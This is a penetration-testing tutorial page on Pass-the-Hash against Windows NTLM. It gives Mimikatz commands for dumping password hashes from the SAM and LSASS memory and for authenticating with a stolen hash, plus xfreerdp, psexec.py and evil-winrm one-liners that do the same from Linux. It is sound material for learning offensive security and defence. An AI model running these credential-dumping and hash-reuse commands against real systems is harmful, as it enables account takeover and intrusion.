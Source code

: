 # Pass-the-Hash (NTLM)

Refer to the following resources for more information on the relevant topics:

1. &#x20;[pass-the-hash](https://jarrettgxz-sec.gitbook.io/penetration-testing-ethical-hacking-concepts/windows-active-directory/tools/mimikatz/pass-the-hash) attack.
2. [NetNTLM](https://jarrettgxz-sec.gitbook.io/windows/active-directory-ad/authentication-methods/netntlm) authentication

The Pass-the-Hash (PtH) method relies on the way the NTLM authentication process works, where a user can authenticate to a Windows domain configured to use NTLM authentication just by merely knowing the NTLM hash. Thus, we won't even have to crack the NTLM hashes as we will not require the actual password to authenticate successfully.

Mimikatz provides 2 methods to retrieve the NTML hashes:

a. Local SAM&#x20;

b. LSASS memory

Ensure to perform the necessary actions before we attempt to harvest the credentials. Refer to the [following](https://jarrettgxz-sec.gitbook.io/penetration-testing-ethical-hacking-concepts/windows-active-directory/tools/mimikatz) for more information on each module.

```
mimikatz # privilege::debug
mimikatz # token::elevate
```

### (1) Local SAM

This method will only allow us to retrieve hashes from the local users on the machine only (No domain user's hashes).

{% code overflow="wrap" %}
```
mimikatz # lsadump::sam
```
{% endcode %}

Eg. We have found the username `test.user` with the NTLM hash value `1b2axxxx` :

```
mimikatz # lsadump::sam

RID  : xxxx
User : jarrett.gxz
  Hash NTLM: 1b2axxxx
```

### (2) LSASS memory

This method will allow us to retrieve any NTLM hashes for local users and any domain user that has recently logged onto the machine.

```
mimikatz # sekurlsa::msv
```

Eg. We have found the username `jarrett.gxz` in the domain `test.domain`, with the NTLM hash value `1b2axxxx` :

```
mimikatz # sekurlsa::msv

Authentication Id : xxxx
Session           : xxxx 
User Name         : jarrett.gxz
Domain            : TEST
...
        msv :
         [00000003] Primary
         * Username : test.user
         * Domain   : test.domain
         * NTLM     : 1b2axxxx
```

### Perform Pass-the-Hash

{% code overflow="wrap" %}
```
mimikatz # token::revert 

mimikatz # sekurlsa::pth /user:jarrett.goh /domain:test.domain /ntlm:1b2axxxx /run:"<payload>"
```
{% endcode %}

> Note we first have to run `token::revert` to revert back to our original token privileges, as trying to pass-the-hash with an elevated token won't work

We can view the `sekurlsa::pth` module command as equivalent to using the [`runas /netonly`](https://jarrettgxz-sec.gitbook.io/penetration-testing-ethical-hacking-concepts/windows-active-directory/enumeration/runas.exe) command with a hash instead of a password.

### PtH with Linux

Several tools exists in Linux, with built-in support to perform PtH. The following outlines a few:

1. `xfreerdp`

{% embed url="https://www.kali.org/blog/passing-hash-remote-desktop/" %}

```sh
$ xfreerdp /v:<target_ip> /u:DOMAIN\\<username> /pth:NTLM_HASH
```

2. `psexec.py`

{% embed url="https://www.kali.org/tools/impacket-scripts/#impacket-psexec" %}

```sh
$ psexec.py -hashes NTLM_HASH domain/<username>@<target>
```

3. `evil-winrm`

{% embed url="https://www.kali.org/tools/evil-winrm/" %}

```sh
$ evil-winrm -i <target> -u <username> -H NTLM_HASH
```

